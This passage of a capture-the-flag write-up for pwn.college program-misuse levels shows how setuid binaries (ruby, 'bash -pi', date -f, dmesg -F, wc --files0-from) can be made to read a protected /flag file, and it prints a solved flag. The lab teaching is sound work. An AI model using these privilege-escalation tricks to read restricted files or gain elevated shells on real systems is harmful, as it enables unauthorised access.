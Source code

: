 ```bash
$ ruby /flag
/flag:1: syntax error, unexpected local variable or method, expecting '}'
pwn.college{06kxXyrzYst2E0pz5a-46koeJJS.QX1gTMsMDN3IzW}
```

### Level 44 - bash

From the `man` page of `bash`:

>     If  the  shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell  functions  are  not  inherited  from  the  environment, the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id.  If the -p option is supplied at invocation, the startup behavior is the same, but  the  effective user id is not reset.

```bash
$ bash -pi
```

After that, we simply `cat /flag` to get the flag.

<center>
    <h1>
Commands that weren't supposed to read files
    </h1> 
</center>

### Level 45 - date

```bash
$ date -f /flag
```

### Level 46 - dmesg

From the `man` page of `dmesg`:

>     -F, --file file
>            Read the syslog messages from the given file. Note that -F does not support messages in kmsg format.The old syslog format is supported only.

```bash
$ dmesg -F /flag
```

### Level 47 - wc

From the `man` page of `wc`: 

>--files0-from=F
>        read  input  from  the files specified by NUL-terminated names in file F; If F is - then read names from standard
>        input

```bash
$ wc --files0-from=/flag
```
